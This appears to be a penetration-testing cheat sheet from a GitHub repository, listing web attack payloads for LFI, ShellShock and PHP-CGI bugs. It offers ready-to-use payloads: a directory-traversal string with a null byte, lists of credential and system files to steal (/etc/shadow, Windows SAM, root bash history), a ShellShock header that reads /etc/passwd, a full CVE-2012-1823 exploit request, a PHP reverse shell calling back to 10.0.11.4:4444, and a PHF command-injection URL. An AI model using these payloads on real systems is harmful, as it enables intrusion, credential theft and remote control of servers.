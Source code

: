 # Tools
  * Burp Spidering
  * Nikto
  * Dirbuster
  * Dirb


## SQL Injection

# Local File Inclusion (LFI)
In versions of PHP below 5.3 can terminate with a null byte
```
?name=Haxor&type=2&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
```

## Enumerating LFI



## Exfiltrate Linux Files
```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

...log files
```

## Exfiltrate Windows Files
```
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```

## PHP CGI-Bin Exploits

**Exploiting ShellShock via CGI-Bin - [CVE-2014-6271]**
<br/>
![Shell Shock via User-Agent Header](./img/SHELL_SHOCK.png)
```
() { :;}; echo $(</etc/passwd)
```

**Detect / Exploit PHP CGI Bug - [CVE-2012-1823]**
<br/>
_Detection:_
```
nmap -p 80, 8080, 443 --script http-cve2012-1823
http://vulnerable/?-s
```

_Exploitation:_
```
POST /?-%64+allow_url_include%3dOn+-%64+safe_mode%3d0+-d+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-%64+open_basedir%3dnone+-%64+auto_prepend_file%3dphp://input+--define+cgi.force_redirect%3d0+--define+cgi.redirect_status_env%3d0+-%6e HTTP/1.1
```

_POST Body Reverse TCP Shell_
```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.11.4/4444 0>&1'");die; ?>
```

**PHF CGI Remote Command Execution - [CVE-1999-0067]**
```
http://www.thesite.com/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd

```
